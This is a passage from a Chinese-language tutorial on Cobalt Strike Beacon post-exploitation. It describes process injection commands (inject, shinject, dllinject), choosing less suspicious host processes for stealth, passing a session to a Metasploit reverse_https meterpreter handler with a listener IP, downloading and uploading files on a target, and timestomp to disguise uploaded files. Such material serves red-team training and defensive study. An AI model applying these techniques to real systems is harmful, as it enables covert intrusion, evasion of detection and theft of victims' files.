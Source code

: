 Beacon 被设计的最初目的就是向其他的 CS 监听器传递会话。

spawn：进行会话的传递，也可直接右击会话选择spawn命令进行会话的选择。默认情况下，spawn命令会在 rundll32.exe 中派生一个会话。为了更好的隐蔽性，可以找到更合适的程序（如 Internet Explorer） 并使用spawnto命令来说明在派生新会话时候会使用 Beacon 中的哪个程序。

spawnto：该命令会要求指明架构（x86 还是 x64）和用于派生会话的程序的完整路径。单独输入spawnto命令然后按 enter 会指示 Beacon 恢复至其默认行为。

inject：输入inject + 进程 id + 监听器名来把一个会话注入一个特定的进程中。使用 ps 命令来获取一个当前系统上的进程列表。使用inject [pid] x64来将一个64位 Beacon 注入到一个 64位进程中。

spawn和inject命令都将一个 payload stage 注入进内存中。如果 payload stage 是 HTTP、HTTPS 或 DNS Beacon 并且它无法连接到你，那么将看不到一个会话。如果 payload stage 是一个绑定的 TCP 或 SMB 的 Beacon，这些命令会自动地尝试连接到并控制这些 payload。

dllinject：dllinject + [pid]来将一个反射性 DLL 注入到一个进程中。

shinject：使用shinject [pid] [架构] [/路径/.../file.bin]命令来从一个本地文件中注入 shellcode 到一个目标上的进程中。

shspawn：使用shspawn [架构] [/路径/.../file.bin]命令会先派生一个新进程（这个新进程是 spawn to 命令指定的可执行文件），然后把指定的 shellcode 文件（ file.bin ）注入到这个进程中。

dllload：使用dllload [pid] [c:\路径\...\file.dll]来在另一个进程中加载磁盘上的 DLL文件。

会话传递使用场景

1、将当前会话传递至其他CS团队服务器中，直接右击spawn选择要传递的监听器即可。

2、将当前会话传递至MSF中，这里简单做一下演示。

首先，在MSF中，为攻击载荷新建一个payload
```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set lhost 192.168.175.156
msf5 exploit(multi/handler) > set lport 443
msf5 exploit(multi/handler) > exploit -j
```
随后，在CS中新建一个外部Foreign监听器，这里设置的监听IP与端口和MSF中的一致即可，随后在CS中利用spawn选择刚新建的外部监听器，MSF中即可返回会话。

3、文件系统 #
浏览会话系统文件位置在右击会话处，选择 Explore --> File Browser即可打开。在这里可以对当前会话下的文件进行浏览、上传、下载、删除等操作。

在进行文件浏览时，如果 beacon 设置的 sleep 值较高，CS会因此而变得响应比较慢。

彩色文件夹表示该文件夹的内容位于此文件浏览器的缓存中；深灰色的文件夹表示该文件夹的内容不在此文件浏览器缓存中。

文件下载

download：下载请求的文件。Beacon 会下载它的任务要求获取的每一个文件的固定大小的块。这个块的大小取决于 Beacon 当前的数据通道。HTTP 和 HTTPS 通道会拉取 512kb 的数据块。

downloads：查看当前 Beacon 正在进行的文件下载列表。

cancel：该命令加上一个文件名来取消正在进行的一个下载任务。也可以在 cancel 命令中使用通配符来一次取消多个文件下载任务。

下载文件都将下载到CS团队服务器中，在View --> Download下可看到下载文件的记录，选中文件后使用Sync Files即可将文件下载到本地。

文件上传

upload：上传一个文件到目标主机上。

timestomp：将一个文件的修改属性访问属性和创建时间数据与另一个文件相匹配。当上传一个文件时，有时会想改变此文件的时间戳来使其混入同一文件夹下的其他文件中，使用timestomp 命令就可以完成此工作。
